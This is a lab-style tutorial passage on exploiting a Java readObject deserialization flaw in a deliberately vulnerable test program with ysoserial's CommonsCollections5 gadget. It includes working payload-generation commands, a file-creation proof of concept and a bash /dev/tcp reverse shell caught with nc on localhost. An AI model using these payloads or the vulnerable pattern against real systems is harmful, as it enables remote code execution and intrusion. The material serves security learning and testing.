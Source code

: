 #### 3.1. Info

The following example will show how to exploit a deserialization vulnerability triggered via `readObject` method in a dummy test application.

Scenario:

- vulnerability was detected via Burp extension `https://github.com/federicodotta/Java-Deserialization-Scanner`
  - `Apache Commons Collections 3 Alternate payload 2 (Sleep)`

- exploit the vulnerability via `https://github.com/frohoff/ysoserial` 
  - this provides user-defined payloads (unlike benign `sleep` command)
  - `CommonsCollections5` payload is similar to Burp's


#### 3.2. Match the Burp scanner payload with the `yseoserial` gadget

```
# payload_str=`grep -r 'Commons Collections 3 Alternate payload 2 (Sleep)' ~/Java-Deserialization-Scanner | grep -oE '\"rO0AB.*\"' | tr -d '"' | tr -d '\n' | head -c 32`
# options=`java -jar ~/ysoserial.jar 2>&1 | grep -i 'commons-collections:3.1' | awk '{print $1}'`
# for i in $options; do java -jar ~/ysoserial.jar $i ls 2>/dev/null | base64 | grep -oE $payload_str && echo $i; done
rO0ABXNyAC5qYXZheC5tYW5hZ2VtZW50
CommonsCollections5
```
Note: this indicates that `CommonsCollections5` from `yseoserial` is the gadget identified to work with the target.


#### 3.3. Project setup (vulnerable application)

a) The following code `/tmp/java_serial/Main.java` simply reads a file that contains a serialized Java steam, attempts to re-build the original Java object:

```java
import java.io.*;

public class Main {
    public static void main(String[] args) throws IOException, ClassNotFoundException {
        if (args.length != 1) return;
        String filename = args[0];
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        Object whatever = ois.readObject(); // hereby the vulnerable code
    }
}
```

b) After building `ysoserial` from source, all JAR dependencies that contain the required gadgets can be found under the local `maven` repository:
```
# find ~/.m2 -regex ".*commons.*collections.*3.1.*.jar" -exec cp -- "{}" /tmp/java_serial/ \;
```

c) Project structure:
```
# tree /tmp/java_serial/
/tmp/java_serial/
├── commons-collections-3.1.jar
└── Main.java

0 directories, 2 files
```

d) Compiling the program:
```
# cd /tmp/java_serial/
# javac Main.java # compile as regular Java program
# javac -cp commons-collections-3.1.jar: Main.java # in case classes from JAR file are imported in the Java program
```


#### 3.4. Exploitation - part 1 (benign payload)

Note:
- it is enough to provide the gadget's JAR dependency as part of the Java Class Path when running the application (similar to WebLogic)
- after running the program, successful exploitation creates `/tmp/test_serial` file

a) Generate the `ysoserial` payload for `CommonsCollections5`:
```
# java -jar ~/ysoserial.jar CommonsCollections5 'touch /tmp/test_serial' > /tmp/java_serial/collections5.serial
```

b) Exploitation - PoC:
```
# file /tmp/test_serial
/tmp/test_serial: cannot open `/tmp/test_serial' (No such file or directory)
# java -cp commons-collections-3.1.jar: Main collections5.serial
# file /tmp/test_serial
/tmp/test_serial: empty
```


#### 3.5. Exploitation - part 2 (reverse shell)

Note: remember to patch `ysoserial` - `CommonsCollections5.java` before running complex commands as part of your payload.

a) Generate the `ysoserial` payload for `CommonsCollections5`:
```
# java -jar ~/ysoserial.jar CommonsCollections5 "/bin/bash -i >& /dev/tcp/127.0.0.1/9999 0>&1" > /tmp/java_serial/collections5.serial
```

b) Exploitation - PoC:
```
# java -cp commons-collections-3.1.jar: Main collections5.serial
# nc -nlvp 9999
listening on [any] 9999 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 48560
...
```

